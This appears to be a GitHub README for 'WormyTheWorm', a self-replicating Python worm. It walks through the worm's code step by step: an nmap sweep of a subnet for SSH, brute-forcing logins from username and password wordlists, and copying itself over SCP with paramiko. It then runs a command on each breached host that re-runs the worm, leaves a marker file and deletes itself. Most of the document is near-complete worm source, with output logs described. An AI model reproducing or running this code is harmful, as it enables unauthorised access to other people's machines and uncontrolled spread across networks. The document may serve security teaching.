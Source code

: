 # WormyTheWorm
___

## Summary: 
> A Python worm that scans & infects a given subnet while replicating itself. 
> Below is a breakdown of the code, including screenshots & descriptions of the processes used. (WormyTheWorm.py)

## Table of Contents
- [Dependencies](#dependencies)
- [NMAP](#nmap)
- [Brute Force](#brute-force) 
- [SSH and Paramiko](#ssh-and-paramiko)
- [Try/Except loop for SSH & SCP via Paramiko](#try-except-loop-for-SSH-and-SCP-via-Paramiko)
- [Output](#output)
___
## Dependencies 
&NewLine; 
```sh
import nmap
import paramiko
import sys
from scp import SCPClient
```

The functions above must be installed on the local machine for the program to run successfully. Run the 3 commands below to install each successfully. 

**Pip:**
```sh
sudo apt install python3-pip
```
**NMap:**
```sh
sudo apt-get install nmap
```
**Requirements:**

Download the configuration file called "requirements.txt" from this repository. Move it to your current directory, then run the following command:
```sh
pip install -r requirements.txt
```

## NMap

NMap is used to scan a given subnet & return all host IPs on the network. 

**NMap Explained**

1. A variable is defined that calls the port scanner method. 
2. **The target subnet is identified - the default port will always be 22 for SSH utilization.**
3. The command line method is initialized. 
```sh
nmScan = nmap.PortScanner()
nmScan.scan('10.0.0.0/24', '22')
nmScan.command_line()
```
1. A list called "networkhosts" is defined, which will contain the IPv4 addresses located on the subnet. 
2. A "for" loop is intialized. This loop iterates through all hosts & stores them via the append method in "networkhosts", defined above. 
```sh
networkhosts = []
for host in nmScan.all_hosts():
    networkhosts.append(host)
print(networkhosts)
```
3. "networkhosts" is printed out on the command line, showing us the list of IPv4 addresses on our subnet.

![IPs on the subnet](./printedipv4.png)

## Brute Force 

The brute force method of username / password cracking takes predefined wordlists & runs all possible combinations against a log-in barrier. The size of the wordlist will effect the success rate, but increased wordlist length correlates to an increase in time. In our example code, small wordlists of four usernames & four passwords are defined for the sake of time, but could be substituted for a longer list (such as rockyou.txt) using the path provided below: 
```sh
/usr/share/wordlists/rockyou.txt
```
The variables used by SSH/Paramiko (explained in further section) are defined in a "for" loop that will ultimately iterate through each host previously amended to "networkhosts". 
```sh
for element in networkhosts:
    host = element
    port = 22
```
The wordlists referenced above are also defined. 
```sh
usernames = ['sam','gavin','stephen','devon']
passwords = ['admin','stephen','penelope','password']
```

## SSH and Paramiko

Paramiko is Python's implementation of SSHv2 proctocol and is the crux of WormyTheWorm's ability to infiltrate hosts on a local network. 

First, two subsequent "for" loops utilize the word lists defined in the "Brute Force" section above. Each "for" loop combination contains a different combination of "users" & "pwords", and SSH is attempted via Paramiko using each one. The variables "username" and "password", which are native to Paramiko, are defined. 

```sh
for user in usernames:
        for pword in passwords:
            username = user
            password = pword
```
Next, the "command" variable is defined. This sequence is executed via the target machine's command line once SSH connection is established. This command in particular performs the following:
1. WormyTheWorm is executed - this is how the worm replicates. Identical code will be executed on the target machine, and the process will begin anew. 
2. A file called "WormyWuzHere" is created. 
3. The line "Haha no code for you :)" is written to the file above. 
4. WormyTheWorm gets deleted.
```sh
command = "./WormyTheWorm && touch 'WormyWuzHere' && echo 'Haha no code for you :)' > WormyWuzHere && rm WormyTheWorm"
```
The first line of the code below creates a new SSHCLient, and the second line allows the script to SSH to a remote server with unknown SSH keys. 
```sh
ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy()
```
## Try Except loop for SSH and SCP via Paramiko

A "try block" & an "except block" are used to set a timeout limit & an appropriate response, to increase the speed of Wormy as a whole. 

Within the "try block" the following occurs (in order):
1. ssh.connect is initialized, utlizing the previously defined username, password, and host variables. The timeout is set at 5 seconds. 
2. SCP variable is defined intliazed using the SCPClient via a get_transport request. This allows the WormyTheWorm file to be transported to the host machine in preparation for execution & replication. 
3. An SCP put request that references the first item on the command line (WormyTheWorm executable) is inialized. This step places the file onto to the target machine. 
4. The previously defined command in executed on the target machine. 
5. If the above works as it should within the time limit, a message displaying the host IP & "Success :)" will be displayed. 
```sh
 try:
        ssh.connect(host, port, username, password, timeout=5)
        scp = SCPClient(ssh.get_transport())
        scp.put(sys.argv[0])
        stdin, stdout, stderr = ssh.exec_command(command)
        print(host + ' Success :)')
```
Within the "except block" the following occurs:
1. If the "try block" is unsuccessful, a message displaying the host IP & "Timeout :(" will be displayed. 
```sh
 except:
        print(host + ' Timeout :(')
```

## Output

The command line on the attacker's machine shows us a log of each attempt to **gain access to a target using a specific username and password combination.** The image below shows a portion of that log.

![output log](./log.png)

After the success on 10.0.0.154, Wormy attempts to brute force 10.0.0.188, the next target.

After the script runs, the ```ls``` command on the target machines' terminals will show if the attack was successful. If it was, "WormyTheWorm" will be included in the output. (```ls``` shows all of the files in the current directory; right after a login, ```ls``` refers to the home directory).

![wormy ls](./lswithwormy.png)

Once WormyTheWorm copies itself onto another machine, it will automatically run again. Once it finishes, it will remove itself from the machine, and create "WormyWuzHere" in the same directory. Once again, ```ls``` will show if the script successfully ran on.

![wormy's tracks](./wormtracks.png)










